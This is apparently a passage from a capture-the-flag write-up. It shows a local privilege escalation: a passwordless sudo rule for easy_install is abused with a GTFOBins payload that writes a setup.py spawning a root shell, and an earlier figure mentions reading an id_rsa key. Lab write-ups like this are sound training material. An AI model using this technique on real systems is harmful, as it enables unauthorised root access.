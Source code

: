 ![id_rsa](./permission_denied_user.png)
> _Figure 10_: **Reading the id_rsa file.**

# Privilege escalation

After connect to the SSH I ran the command `sudo -l` that reveled the following permissons: 
```bash
$ sudo -l
...
    (ALL) NOPASSWD: /usr/local/bin/easy_install

```

This means that I could run the file `/usr/local/bin/easy_install` as root without any passwords. So, let's check what this files does.
__easy_install__:
```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
import re
import sys 
from setuptools.command.easy_install import main
if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())

```

We is using the __main__ funtion from the __easy_install__ lib. Research a little bit I found that easy_install have his own page on [GTFOBins](https://gtfobins.github.io/gtfobins/easy_install/). Opening the page and running the following commands we get a root shell.
```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```
And finally I could get the root flag as show in __Figure 11__.
